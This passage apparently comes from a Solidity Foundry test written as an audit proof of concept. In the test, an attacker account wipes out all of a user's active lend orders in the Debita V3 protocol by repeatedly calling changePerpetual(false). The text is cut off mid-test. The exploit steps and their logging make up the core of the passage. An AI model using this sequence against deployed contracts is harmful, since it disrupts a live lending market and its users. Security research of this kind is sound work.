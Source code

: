 ```solidity
        );

        ownershipsContract.setDebitaContract(
            address(DebitaV3AggregatorContract)
        );
        auctionFactoryDebitaContract.setAggregator(
            address(DebitaV3AggregatorContract)
        );
        DLOFactoryContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );
        DBOFactoryContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );

        incentivesContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );

    }

    function testAttack() public {
        
        uint amountOfOrders = 100;
        // user creates hundred lend orders to populate all active lend orders mapping 
        // we do the following to simulate real world scenarion with hundred of active lend orders in the protocol

        console.log("---------user creates hundred lend orders--------");
        vm.startPrank(user);
         for (uint i = 0; i < amountOfOrders; i++) {
            userCreateLendOrder();
        }
        vm.stopPrank();

        console.log("Length of all active lend orders before the attack:", DLOFactory(DLOFactoryContract).activeOrdersCount());
        console.log("First active lend order with index 0 before the attack:", DLOFactory(DLOFactoryContract).allActiveLendOrders(0));
        console.log("Last active lend order with index 99 before the attack:", DLOFactory(DLOFactoryContract).allActiveLendOrders(99), "\n");

        vm.startPrank(attacker);
        console.log("-------------------attack------------------------");
        // here attacker creates specific lend perpetual order and specific borrow order.
        // attecker creates orders and matches orders in specific way to make the lendInformation.availableAmount equal to zero
        prepareAttack();

        // attacker deletes all user lend orders from all active lend order mapping using changePerpetual(false)
        uint length = DLOFactory(DLOFactoryContract).activeOrdersCount();
         for (uint i = 0; i < length; i++) {
            LendOrder.changePerpetual(false);
        }

        vm.stopPrank();

        console.log("Length of all active lend orders after the attack:", DLOFactory(DLOFactoryContract).activeOrdersCount());
        console.log("First active lend order with index 0 after the attack:", DLOFactory(DLOFactoryContract).allActiveLendOrders(0));
```
